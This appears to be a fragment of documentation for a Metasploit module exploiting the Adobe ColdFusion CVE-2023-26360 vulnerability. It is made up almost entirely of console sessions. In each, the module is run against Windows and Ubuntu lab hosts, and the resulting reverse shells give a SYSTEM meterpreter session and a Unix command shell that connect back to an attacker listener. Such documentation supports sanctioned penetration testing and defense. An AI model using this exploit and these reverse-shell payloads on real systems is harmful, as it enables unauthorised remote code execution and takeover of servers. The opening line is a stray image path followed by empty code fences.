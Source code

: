 ```
```

### Windows Dropper (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 2
target => 2
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command Stager progress -   0.73% done (2047/279726 bytes)
[*] Command Stager progress -   1.46% done (4094/279726 bytes)

...snip...

[*] Command Stager progress -  99.52% done (278392/279726 bytes)
[*] Command Stager progress - 100.00% done (279726/279726 bytes)
[*] Meterpreter session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57554) at 2023-04-06 12:23:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.13.12 - Meterpreter session 1 closed.  Reason: Died
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```

### Linux Command (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 3
target => 3
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD cmd/unix/reverse_perl
PAYLOAD => cmd/unix/reverse_perl
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command shell session 2 opened (172.23.9.70:4444 -> 172.23.0.98:47598) at 2023-04-06 12:27:55 +0100

id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
pwd
/opt/ColdFusion2021/cfusion/bin
```
